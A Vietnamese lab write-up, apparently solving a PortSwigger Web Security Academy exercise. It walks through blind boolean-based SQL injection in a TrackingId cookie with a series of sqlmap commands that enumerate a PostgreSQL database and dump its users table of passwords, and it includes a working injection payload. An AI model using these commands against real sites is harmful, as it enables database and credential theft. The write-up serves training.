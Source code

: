 và sqlmap thông baos parameter category không thể inject được và mình đã chuyển hướng tấn công qua cookies là trường còn lại mà mình có thể kiểm soát bằng lệnh

![ảnh](https://hackmd.io/_uploads/B1voC0rhp.png)

```sql!
sqlmap  -u "https://0a9f00940340be4885b38a3300190019.web-security-academy.net/" --cookie "TrackingId=CriZQLZY2rgTxcbl*; session=5OGR8fOXIsNONwfauv6Gsz5j0NHX8Z" --technique=B --threads=10 --batch
```

sqlmap sẽ inject vào ký tự **"\*"** với kiểu tấn công mình chọn là Blind

![ảnh](https://hackmd.io/_uploads/r1zV1yUn6.png)

sqlmap thông báo có thể inject vào cookie với -string="Welcome back!"

- và CSDL ở đây dùng là **PostgreSQL**
- cùng với đó mình có thể tấn công theo kiểu **boolean-based blind** với Payload: `TrackingId=CriZQLZY2rgTxcbl' AND 3593=3593 AND 'MmVS'='MmVS; session=5OGR8fOXIsNONwfauv6Gsz5j0NHX8Z`

tiếp theo mình liệt kê database sử dụng trong CSDL này bằng lệnh

```sql!
sqlmap  -u "https://0a9f00940340be4885b38a3300190019.web-security-academy.net/" --cookie "TrackingId=CriZQLZY2rgTxcbl*; session=5OGR8fOXIsNONwfauv6Gsz5j0NHX8Z" --technique=B --threads=10 --dbs  --batch
```

![ảnh](https://hackmd.io/_uploads/HJIBlyI2T.png)

- mình được 3 database **public**, **pg_catalog**
  và **information_schema**

- mình thấy những bài trước username và password được lưu ơr database public nên mình vào database này và xem các bảng bằng lệnh

```sql!
sqlmap  -u "https://0a9f00940340be4885b38a3300190019.web-security-academy.net/" --cookie "TrackingId=CriZQLZY2rgTxcbl*; session=5OGR8fOXIsNONwfauv6Gsz5j0NHX8Z" --technique=B --threads=10 -D public --tables   --batch
```

![ảnh](https://hackmd.io/_uploads/Sk47-y82T.png)

- mình được 2 bảng trong đó có table users

mình liệt kê các cột trong table này xem có cột password không bằng lệnh

```sql!
sqlmap  -u "https://0a9f00940340be4885b38a3300190019.web-security-academy.net/" --cookie "TrackingId=CriZQLZY2rgTxcbl*; session=5OGR8fOXIsNONwfauv6Gsz5j0NHX8Z" --technique=B --threads=10 -D public -T users --columns    --batch
```

![ảnh](https://hackmd.io/_uploads/ry7yGyInT.png)

- có thông tin chúng ta cần mình dump bảng này ra bằng lệnh

```sql!
sqlmap  -u "https://0a9f00940340be4885b38a3300190019.web-security-academy.net/" --cookie "TrackingId=CriZQLZY2rgTxcbl*; session=5OGR8fOXIsNONwfauv6Gsz5j0NHX8Z" --technique=B --threads=10 -D public -T users --dump --batch
```

![ảnh](https://hackmd.io/_uploads/Hy-jM1U2p.png)

